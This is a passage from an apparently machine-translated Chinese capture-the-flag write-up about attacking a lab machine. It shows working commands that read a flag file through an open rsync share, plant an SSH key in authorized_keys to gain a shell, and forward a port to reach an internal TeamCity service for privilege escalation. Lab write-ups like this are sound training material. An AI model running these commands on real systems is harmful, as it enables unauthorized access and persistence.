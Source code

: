 ```
drwxr-xr-x          4,096 2021/02/01 08:46:46 Downloads
drwxr-xr-x          4,096 2021/02/01 07:53:22 Music
drwxr-xr-x          4,096 2021/02/01 07:53:22 Pictures
drwxr-xr-x          4,096 2021/02/01 07:53:22 Public
drwxr-xr-x          4,096 2021/02/01 07:53:22 Templates
drwxr-xr-x          4,096 2021/02/01 07:53:22 Videos$ rsync rsync://rsync-connect@10.10.63.208/files/sys-internal/ user.txt .
```

还剩三面旗子，还剩一面！

为了在目标机器上获得一个 shell，我使用 rsync 上传了一个 authorized_keys 文件，其中包含我在自己的机器上生成的 SSH 密钥:

```
$ ssh-keygen -o
Generating public/private rsa key pair.
Enter file in which to save the key (/home/kali/.ssh/id_rsa): id_rsa
Enter passphrase (empty for no passphrase):$ rsync -av id_rsa.pub rsync://rsync-connect@10.10.63.208/files/sys-internal/.ssh/authorized_keys$ ssh -i id_rsa sys-internal@10.10.63.208
```

我现在可以通过 SSH 访问目标机器了。

# 根权限提升—团队城市

一旦我获得了对目标机器的访问权，我就开始寻找将我的权限提升到 root 的方法。我注意到，在根顶级目录中有一个有趣的文件夹叫做 ***/TeamCity*** 。

> **n . b .**TeamCity 是由 Jet brains 建立的用 Java 语言编写的支持构建和部署不同类型项目的持续集成**工具**。安装后，可以通过 web 浏览器访问 TeamCity web UI。Windows 发行版的默认地址是`[http://localhost/](http://localhost/)`，而`tar.gz`发行版的默认地址是`[http://localhost:8111/](http://localhost:8111/)`。

我发现以下资源对于了解如何利用 TeamCity 非常有用:

[](https://github.com/kacperszurek/pentest_teamcity) [## kacperszurek/pentest_teamcity

### TL；DR:从 JetBrains IDE(如 IntelliJ 或 PyCharm)获取密码，并在 TeamCity 内部使用这些凭证…

github.com](https://github.com/kacperszurek/pentest_teamcity) 

为了连接到运行在端口 8111 上的 TeamCity 服务，我设置了 SSH 端口转发:

```
ssh -L 8111:127.0.0.1:8111 -i id_rsa sys-internal@10.10.94.107
```

一旦设置了 SSH 端口转发，我就可以通过 web 浏览器访问 TeamCity web UI，并看到一个登录页面:
